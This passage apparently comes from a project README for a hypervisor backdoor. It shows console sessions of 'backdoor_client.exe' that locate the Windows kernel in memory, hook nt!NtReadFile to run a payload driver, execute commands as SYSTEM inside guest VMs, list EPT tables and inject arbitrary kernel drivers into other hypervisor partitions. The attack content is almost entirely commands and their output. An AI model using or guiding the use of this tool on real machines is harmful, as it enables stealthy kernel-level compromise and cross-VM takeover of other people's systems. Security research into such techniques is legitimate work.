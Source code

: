 ```
[+] Locating kernel image in memory, it might take a while...
[+] Kernel is at 0xfffff80406400000 (physical: 0x2c00000)
[+] Kernel INIT section is at nt+d55000 (size: 0x17c44)
[+] Kernel PAGEKD section is at nt+934000 (size: 0x5b92)
[+] nt!NtReadFile() is at 0xfffff804069e7690 (physical: 0x31e7690)
[+] Driver loader virtual address is 0xfffff80406d35000 (size: 0x5000)
[+] Spin lock physical address is 0x592fff8
[+] Patch size is 15 bytes
[+] nt!NtReadFile() hook was set: 0xfffff804069e7690 -> 0xfffff80406d37d70
[+] Waiting for the payload driver to be executed...
[+] Payload driver was executed!
[+] Performing cleanup...
[+] DONE
[+] VM exec drvier was loaded
[+] Guest CR3 value is 0x00000000515ec002
[+] VM_EXEC_STRUCT physical address is 0x00000000817db060
[+] Command output address is 000002343F460000 (4096 bytes)

nt authority\system

> .\backdoor_client.exe 0 --vm-exec 0x10143701e "hostname"
[+] Running on CPU #0
[+] VM exec drvier is already loaded
[+] Guest CR3 value is 0x00000000515ec002
[+] VM_EXEC_STRUCT physical address is 0x00000000817db060
[+] Command output address is 000002343F460000 (4096 bytes)

DESKTOP-HFU6MQ2
```

Loading arbitrary kernel drivers into the specified hypervisor partition from any guest or host operating system:

```
> .\backdoor_client.exe 0 --ept-list
[+] Running on CPU #0
[+] Collecting EPT address list...
[+] Reading collected data from 0xfffff82269800b80...

  #00: VPID = 0x0001, EPT = 0x000000010143701e
  #01: VPID = 0x0002, EPT = 0x000000010143301e

> .\backdoor_client.exe 0 --vm-inject 0x000000010143701e .\driver_example.sys
[+] Running on CPU #0
[+] Loading 3072 bytes from .\driver_example.sys
[+] Current CR3 value is 0x000000010f6c4001
[+] Guest EPT is at 0x000000010143701e
[+] Found valid PROCESSOR_START_BLOCK at 0x0000000000001000

   CompletionFlag: 0x00000001
     HalpLMStub(): 0xfffff80277599760
     PML4 address: 0x1ad000

[+] Locating kernel image in memory, it might take a while...
[+] Kernel is at 0xfffff80277200000 (physical: 0x2c00000)
[+] Kernel INIT section is at nt+d55000 (size: 0x17c44)
[+] Kernel PAGEKD section is at nt+934000 (size: 0x5b92)
[+] nt!NtReadFile() is at 0xfffff802777e7690 (physical: 0x31e7690)
[+] Driver loader virtual address is 0xfffff80277b35000 (size: 0x5000)
[+] Spin lock physical address is 0x592eff8
[+] Patch size is 15 bytes
[+] nt!NtReadFile() hook was set: 0xfffff802777e7690 -> 0xfffff80277b37d70
[+] Waiting for the payload driver to be executed...
[+] Payload driver was executed!
```